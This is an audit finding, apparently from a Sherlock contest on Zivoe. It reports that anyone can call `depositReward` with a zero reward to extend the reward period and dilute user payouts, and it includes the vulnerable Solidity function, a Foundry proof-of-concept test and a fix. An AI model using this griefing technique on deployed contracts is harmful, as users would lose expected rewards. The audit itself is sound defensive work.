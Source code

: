 Able Cinnabar Tardigrade

medium

# Anyone could call `depositReward` with zero reward to extend the period finish time

## Summary

Anyone could extend the reward finish time, potentially resulting in users receiving fewer rewards than expected within the same time period.

## Vulnerability Detail

The function `depositReward` can be called by anyone, even with zero rewards, allowing it to be exploited to extend the reward finish time at little cost. 
This could result in loss of rewards; for instance, if there are 10 DAI rewards within a 10-day period, a malicious user could extend the finish time on *day 5*, extending the finish time to the 15th day. Participants would only receive 7.5 DAI by the 10th day.

```solidity
    function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }

        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```

### POC
Add the test to `zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol` and run it with `forge test --match-test test_ZivoeRewards_deposit_zero --rpc-url <RPC_URL_MAINNET>`

```diff
diff --git a/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol b/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol
index f5353b6..870a531 100644
--- a/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol
+++ b/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol
@@ -685,6 +685,33 @@ contract Test_ZivoeRewards is Utility {

     }

+    function test_ZivoeRewards_deposit_zero() public {
+
+        depositReward_DAI(address(stZVE), 1);
+
+        (
+            uint256 rewardsDuration,
+            uint256 _prePeriodFinish,
+            uint256 _preRewardRate,
+            uint256 lastUpdateTime,
+            uint256 rewardPerTokenStored
+        ) = stZVE.rewardData(DAI);
+        console.log("period finish ", _prePeriodFinish);
+
+        vm.warp(block.timestamp + 1 days);
+
+        depositReward_DAI(address(stZVE), 0);
+
+        (,
+            uint256 _afterPeriodFinish,
+            ,
+            ,
+        ) = stZVE.rewardData(DAI);
+        console.log("period finish ", _afterPeriodFinish);
+        //  extend the Finish 1 day
+        assertEq(_afterPeriodFinish - _prePeriodFinish, 1 days);
+    }
+
     function test_ZivoeRewards_getRewards_works(uint96 random) public {

         uint256 deposit = uint256(random) + 100 ether; // Minimum 100 DAI deposit.
```

## Impact

Anyonce could extend the reward finish time and the users may receive less rewards than expected during the same time period.

## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243

## Tool used

Foundry

## Recommendation
Only specific users are allowed to call function `depositReward`